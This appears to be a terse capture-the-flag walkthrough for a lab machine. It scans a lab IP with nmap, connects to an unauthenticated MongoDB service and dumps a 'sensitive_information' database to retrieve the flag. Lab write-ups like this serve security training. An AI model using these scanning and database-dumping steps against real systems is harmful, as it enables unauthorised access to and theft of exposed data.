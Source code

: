 ping 10.129.228.30

echo "10.129.228.30 mongod.htb" >> /etc/hosts

nmap -p- --min-rate 10000 mongod.htb
nmap -p 22,27017 -sCV mongod.htb

apt-get install mongodb-clients
mongo mongod.htb

show dbs;

use sensitive_information
show collections; -> flag

db.flag.find().pretty()
get flag